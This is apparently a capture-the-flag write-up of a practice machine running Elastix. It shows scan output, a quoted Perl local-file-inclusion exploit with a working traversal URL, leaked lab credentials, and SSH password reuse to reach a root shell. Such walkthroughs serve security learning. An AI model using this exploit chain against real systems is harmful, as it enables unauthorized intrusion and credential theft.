 #nmapscan 
```
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4445/tcp  open  upnotifyp
10000/tcp open  snet-sensor-mgmt
```
#enumeration 

I tried directory scan with ffuf as well as gobuster but gobuster gave error so I seraches about the error which was x509 invalid certificate and I found a vlog 
link:https://github.com/OJ/gobuster/issues/129
and finally ran gobuster with ``-k`` to disable certificate checks
```
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]   
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]  
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/] 
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]   
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]    
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]  
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]   
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/vtigercrm  

```
After that I tried enumerating smtp and port 110 pop3 which was new to me
link:https://book.hacktricks.xyz/pentesting/pentesting-pop
but got nothing as such
then tried searcsploit and got a few exploits
```
Elastix - 'page' Cross-Site Scripting                                                                                       | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                                     | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                               | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                            | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                                                                           | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                                                                          | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                                      | php/webapps/18650.py
```

Now it doesn't seem to be a CSS vulnerability so i tried he lfi as source: https://www.securityfocus.com/bid/55078/info

```
Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

Elastix 2.2.0 is vulnerable; other versions may also be affected. 

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------# 
#Elastix is an Open Source Sofware to establish Unified Communications. 
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution.
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;) 
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {
 
print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";
 
}
else { 
print "\n[-] not successful\n";
        }    
```
tried the exploit given here as it also had the /vtigercrm/graph.php directory 
```
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
and it worked thus elastrix is vulnerable to lfi
now in the amportal.conf file
i got information about FreePBx database 
```
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```
tried to read the /etc/passwd file and got user:fanis and spamfilter
```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
dbus:x:81:81:System message bus:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```
so I tried to read the user flag and was successful xD
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action
```

```
4f8ff273b3b19da8e433f3fa6a999139
Sorry! Attempt to access restricted file.
```
I also tried to open the ssh key for fanis but was not successful
I tried to open the admin directory and got the contents of a .conf file
```

      [phptype] => mysql
     [dbsyntax] => mysql
       username] => asteriskuser
        [password] => jEhdIekWmdjE
           [protocol] => tcp
        [hostspec] => localhost
               [port] => 
            [socket] => 
     [database] => asterisk
```
I tried to login to msql database but we didn't had permission to login
till now, I had
user fanis,spamfilter and admin and password for admin and  so I tried ssh into them
and i got error again but some ssh error yeah!!!
```
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```
to fix this u have to use:
```ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 admin@10.10.10.7```
Just one of OpenSSH legacy issues
link:https://unix.stackexchange.com/questions/340844/how-to-enable-diffie-hellman-group1-sha1-key-exchange-on-debian-8-0/340853
now I tried to ssh into each and every user and one thing and Now seeing the /etc/shadow file found there was no admi user so admin here is the administration or the root
```ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7```
and the passwd was of admin
so logged into root shell and got the root flag



	
       
